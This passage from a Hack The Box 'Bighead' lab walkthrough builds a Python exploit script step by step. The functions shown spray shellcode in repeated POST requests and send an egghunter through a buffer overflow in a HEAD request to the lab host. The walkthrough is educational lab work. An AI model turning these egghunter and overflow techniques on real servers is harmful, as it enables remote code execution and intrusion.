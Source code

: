 `s.close()`
#### I added this in a `for` loop to send the shellcode 16 times. I did this because I wanted to put the shellcode in different places so the egghunter finds it easily. I also added a print statement at the start of the function : `print "\033[32m [*] Sending Shellcode"`, `\033[32m` is for the color it's not important for the exploit. And I added a print statement before closing the stream : `print '\033[34m' + '[' + str(N) + '] ' + re.sub(r"\s"," ",s.recv(12))`. `re.sub(r"\s"," ",s.recv(12))` This will use `re` (regular expressions operations) to print the first 12 chars of the first line of the server response ("HTTP/1.1" + " " + status code (3 chars) = 12).
`send_shellcode` :
```
def send_shellcode(N,host,port,egg,shellcode):
	print "\033[32m [*] Sending Shellcode"
	for i in range(0,16):
		s = socket.socket(socket.AF_INET,socket.SOCK_STREAM,0)
		s.connect((host,port))
		s.send("POST / HTTP/1.1\r\n")
		s.send("Host: dev.bighead.htb\r\n")
		s.send("Content-Length: %s\r\n"%len(shellcode))
		s.send("\r\n")
		s.send(shellcode+"\r\n")
		s.send("\r\n")
		print '\033[34m' + '[' + str(N) + '] ' + re.sub(r"\s"," ",s.recv(12))
		s.close()
		N += 1
	print "\033[32m [*] Done"
```
![](/images/hackthebox/bighead/80.png)
#### That's for `send_shellcode`, let's write `send_egghunter`. We will define the function first :
`def send_egghunter(host,port,egghunter):`
#### Then we will open a TCP stream socket to the server and the port and hold it in a variable called `s` :
`s = socket.socket(socket.AF_INET,socket.SOCK_STREAM,0)`
#### Then we will connect and send the HEAD request :
```
s.connect((host,port))
s.settimeout(None)
s.send("HEAD /" + ("A"*72) + "f0125062" + egghunter + " HTTP/1.1\r\n")
s.send("Host: dev.bighead.htb\r\n")
s.send("\r\n")
```